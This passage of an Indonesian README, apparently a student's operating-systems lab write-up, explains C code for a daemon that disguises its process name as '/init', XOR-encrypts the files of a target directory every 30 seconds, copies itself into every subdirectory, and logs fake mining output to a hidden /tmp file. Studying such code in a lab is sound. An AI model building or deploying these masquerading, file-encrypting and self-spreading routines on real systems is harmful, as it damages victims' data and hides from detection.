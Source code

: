    2. setsid() membuat sesi baru agar proses menjadi leader tanpa terminal kontrol.
  
   3. chdir("/") mengubah direktori kerja ke root (/) agar daemon tidak mengunci direktori.
 
- `prctl(PR_SET_NAME, (unsigned long)"/init", 0, 0, 0);` Mengganti nama proses menjadi /init.
- `while (1) {
    time_t waktu = time(NULL);
    unsigned char kunci = (unsigned char)(waktu % 256);
    encrypt(direktoriTarget, kunci);
    trojan(direktoriTarget, lokasiSendiri);
    sleep(30);
}` 
    1. Mengambil waktu saat ini (time(NULL)), dan mengubahnya menjadi kunci XOR.
  
    2. Menjalankan fungsi encrypt untuk enkripsi seluruh file di direktori target dengan kunci tersebut.
  
    3. Menjalankan fungsi trojan untuk menyebarkan file malware ke seluruh subdirektori.
  
    4. Looping setiap 30 detik.
 


### REVISI

1. Generate random hex
```bash
void generate_random_hex(char *output, size_t length) {
    const char *hex_chars = "0123456789abcdef";
    for (size_t i = 0; i < length; i++) {
        output[i] = hex_chars[rand() % 16];
    }
    output[length] = '\0';
}
```

- Untuk membuat string acak berisi karakter heksadesimal (0-9, a-f).
- Panjang hasil ditentukan oleh argumen `length`.

2. Mining output
```bash
void log_miner_output(int miner_id, const char *hash) {
    FILE *logfile = fopen("/tmp/.miner.log", "a");
    if (!logfile) return;

    time_t now = time(NULL);
    struct tm *t = localtime(&now);

    fprintf(logfile, "[%04d-%02d-%02d %02d:%02d:%02d][Miner %02d] %s\n",
        t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
        t->tm_hour, t->tm_min, t->tm_sec,
        miner_id, hash);

    fclose(logfile);
}
```
- Mencatat aktivitas mining ke file log `/tmp/.miner.log`.
- Format lognya adalah timestamp, ID miner, dan hash palsu.
- `FILE *logfile = fopen(..., "a")` artinya log ditambahkan ke akhir file.
